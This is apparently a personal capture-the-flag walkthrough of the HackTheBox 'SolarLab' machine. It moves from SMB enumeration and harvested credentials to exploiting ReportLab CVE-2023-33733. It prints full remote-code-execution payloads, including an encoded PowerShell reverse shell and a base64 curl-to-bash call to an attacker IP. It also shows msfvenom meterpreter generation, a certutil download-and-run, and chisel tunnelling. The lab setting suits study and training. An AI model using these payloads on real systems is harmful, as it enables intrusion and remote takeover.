








# HTB - SolarLab
https://app.hackthebox.com/machines/SolarLab

Target IP: 10.10.11.16

Nmap scan:
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

PORT    STATE SERVICE       VERSION
80/tcp  open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-07-13T07:28:45
|_  start_date: N/A
|_clock-skew: -7m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Add host to `/etc/hosts`: 10.10.11.16 solarlab.htb

The website has nothing fun.

Scan for vhost?

ffuf -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -fc 404 -t 40

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://solarlab.htb -H "Host: FUZZ.solarlab.htb" -c -v -t 50 -fs 169

No vhost found.

ffuf -u https://FUZZ.solarlab.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -v -c -t 40

Enumerate SMB:

Enumerate SMB Shares using Nmap
nmap -p 445 --script smb-enum-shares,smb-enum-users 10.10.11.16

nothing.

List Shares with smbclient
smbclient -L //10.10.11.16 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Documents       Disk
IPC$            IPC       Remote IPC

smbclient //10.10.11.16/Documents -N

Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023

Downloaded two file: details-file.xlsx old_leave_request_form.docx

Open details-file.xlsx:

Username	Password
Alexander.knight@gmail.com	al;ksdhfewoiuh
KAlexander	dkjafblkjadsfgl
Alexander.knight@gmail.com	d398sadsknr390
blake.byte	ThisCanB3typedeasily1@
AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn


smbclient //<target_ip>/<share_name> -U <username>
smbclient //10.10.11.16/C -U KAlexander

smbclient //<target_ip>/C$ -U username%password


smbclient //10.10.11.16/C$ -U blake.byte%ThisCanB3typedeasily1@ Failed
smbclient //10.10.11.16/C$ -U AlexanderK%danenacia9234n Failed
smbclient //10.10.11.16/C$ -U ClaudiaS%dadsfawe9dafkn Failed
smbclient //10.10.11.16/C$ -U KAlexander%dkjafblkjadsfgl Failed

smbclient //10.10.11.16/C$ -U Alexander.knight@gmail.com Failed

Need to scan all the ports:
https://github.com/Tib3rius/AutoRecon

With nmap
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
6791/tcp open  hnm

Check port 6791

PORT     STATE SERVICE VERSION
6791/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0

Add to `/etc/hosts`: 10.10.11.16 report.solarlab.htb


AlexanderK	danenacia9234n
ClaudiaS	dadsfawe9dafkn

2 user login failed with notification: user authentication error. Others failed with user not found.

All credentials are not incorrect. But the format of username is "FirstL".

Regconize Blake.byte is invalid, change it to `BlakeB` with password `ThisCanB3typedeasily1@`and successfully login to the report website.










All the subpage are same. Let check the button `Generate PDF`



It generate a PDF file. It insert my uploaded image to the PDF file.



Found the `reportlab` here.

Search on Google: reportlab exploit and got this repo: https://github.com/c53elyas/CVE-2023-33733

The payload
```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

See the color attribute -> edit the Justification to add the html tag.


Find another poc of CVE-2023-33733

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

```html
<font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'os', 'echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMzI6ODAwMAo= | base64 -d|bash'), ('__import__', 'system'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
```

Still failed.

https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC

Still failed.


The actual payload is look like this:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Just edit the justification didn't work.
Checking how this website generate the html file.

When send the payload, I get the warning like this:



Need to shorten the payload??? maximum 300 characters

Read Javascript to know how it validate the input
```javascript
quill.on('text-change', function () {
    let quillContent = quill.root.innerHTML;
    quillContent = quillContent.replace(/<\/?[^>]+(>|$)/g, ""); // Remove HTML tags
    const charCount = quillContent.length;

    charCountDisplay.textContent = charCount + '/' + maxCharacters + ' characters';

    if (charCount > maxCharacters) {
        quill.deleteText(maxCharacters, charCount - maxCharacters);
    }

    // Update the hidden textarea directly
    userTextInput.value = quillContent;
});
```

Not relevant. This is a server-side check, I cannot do anything here.

My friend informed me that the [exp.py](exp.py) file can be used. First, let check the request body it created.

```
-----------------------------145785367013355298301179432176
Content-Disposition: form-data; name="time_interval"

2029-05-26 to 2029-05-27
-----------------------------145785367013355298301179432176
Content-Disposition: form-data; name="leave_request"

<p><font color="[ [ getattr(pow, Word(\'__globals__\'))[\'os\'].system(\'test powersell\') for Word in [ orgTypeFun( \'Word\', (str,), { \'mutated\': 1, \'startswith\': lambda self, x: False, \'__eq__\': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, \'mutate\': lambda self: {setattr(self, \'mutated\', self.mutated - 1)}, \'__hash__\': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))]] and \'red\'">
\n1</font></p>
\n-----------------------------145785367013355298301179432176
\nContent-Disposition: form-data; name="signature"; filename="Untitled.png"
\nContent-Type: image/png

\n\n\x89PNG
\n\x1a
\n\x00\x00\x00
\nIHDR\x00\x00\x00
\n\x00\x00\x00
\n\x08\x02\x00\x00\x00\x02PX\xea\x00\x00\x00\x01sRGB\x00\xae\xce\x1c\xe9\x00\x00\x00\x04gAMA\x00\x00\xb1\x8f\x0b\xfca\x05\x00\x00\x00\tpHYs\x00\x00\x0e\xc3\x00\x00\x0e\xc3\x01\xc7o\xa8d\x00\x00\x00)IDAT(Sc\xd8\xbe}\xbb\x80\x80\x00\x03\x03\x03\x07\x07\xc7\xfc\xf9\xf3%$$\x80l\x04@\xe6\x03U@Y#\x1b00\x00\x00\xcb\xed\x04\xf3\x8a;\xa3\x0b\x00\x00\x00\x00IEND\xaeB`\x82
\n-----------------------------145785367013355298301179432176
\nContent-Disposition: form-data; name="user_input"

\n\n<p>asdf</p>
\n-----------------------------145785367013355298301179432176--
```

The payload was injected to `name="leave_request"`, not in `name="user_input"`. I have tried to add the payload to the `Justification`, which was `user_input`.

Let try again by using burpsuite.

```
POST /leaveRequest HTTP/1.1
Host: report.solarlab.htb:6791
Content-Length: 30792
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://report.solarlab.htb:6791
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarys4KbxAIatvCJAW8A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://report.solarlab.htb:6791/leaveRequest
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJwlzjEOwyAMBdC7MHfAGIydy0QYf9SuSTNVvXsjdX_D-6R9HTifaXsfFx5pf0XaEkddIcQtTFqdFuJV2Qa6tRlUPHdk7VagqGQ2x2ApGF6I8hLVXGiaUyUKhU6ApIOXjplvENFQLDvLrEx9sC84yGUFRytq6Y5cJ47_htL3B6oyL3A.ZpOalw.OQz7FD3Fz_xjDdciFW5ZmZxgww4
Connection: keep-alive

------WebKitFormBoundarys4KbxAIatvCJAW8A
Content-Disposition: form-data; name="time_interval"

2024-07-01 to 2024-07-25
------WebKitFormBoundarys4KbxAIatvCJAW8A
Content-Disposition: form-data; name="leave_request"

1234567890
------WebKitFormBoundarys4KbxAIatvCJAW8A
Content-Disposition: form-data; name="signature"; filename="image.png"
Content-Type: image/png

‰PNG
contents of PNG file

------WebKitFormBoundarys4KbxAIatvCJAW8A
Content-Disposition: form-data; name="user_input"

<p><strong>hello world</strong></p>
------WebKitFormBoundarys4KbxAIatvCJAW8A--
```



Not only the Justification. The `Phone number` can be used also. Ah hah.

```html
<p><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAyACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">1234567890</font></p>
```

Got the rev shell:
```powershell
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.16] 64468

PS C:\Users\blake\Documents\app>
PS C:\Users\blake\Desktop> ls


    Directory: C:\Users\blake\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/14/2024   6:55 AM        9006080 chisel
-ar---         7/13/2024   6:15 PM             34 user.txt


PS C:\Users\blake\Desktop> Get-Content -Path user.txt
e55ee281a2d619bff8202fd39daba8c9
```

Got user flag.

Upgrading the revshell to meterpreter shell.

Generate the payload:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.46 LPORT=4444 -f psh -o meterpreter-4444.ps1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f exe > shell-x64.exe
```

First try with ps1 but failed. Retry with exe and success.


Setup listener on Kali:
```bash
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.46; set LPORT 4444; exploit"
```

Create a http server at the directory of payload (kali)
```bash
python3 -m http.server 80
```

On rev powershell:
```ps
certutil.exe -urlcache -f http://10.10.14.32:80/shell-x64.exe shell-x64.exe
```

Execute it on rev powershell:
```ps
.\shell-x64.exe
```

Successfully get a meterpreter shell.

Check open port by `netstat -an` and found `Openfire-service.exe` is running.

Admin Console interface of `Openfire-service`

Port 9090: Used for HTTP access to the Openfire admin console.
Port 9091: Used for HTTPS (secure HTTP) access to the Openfire admin console.

Search openfire-service exploit and found some CVE, but it requires a port to exploit.

Unfortunately these ports are not open:
```
PORT     STATE    SERVICE        VERSION
9090/tcp filtered zeus-admin
9091/tcp filtered xmltec-xmlmail
```

Set up chisel to tunnel this port, first install on Kali linux.

Trying to download the chisel.exe to Windows target. Use `upload` command of meterpreter.

Bypassing firewall:

Connection error with port `8000` on Windows machine. Trying `56928`, failed.

On meterpreter:
```ps
execute -f ".\chisel.exe" -a "server --port 56928 --reverse" -i

execute -f ".\chisel.exe" -a "client 10.10.14.46:8000 R:9090:localhost:9090" -i
```

On kali
```bash
chisel client 10.10.11.16:56928 R:9090:localhost:9090

chisel server --port 8000 --reverse
```
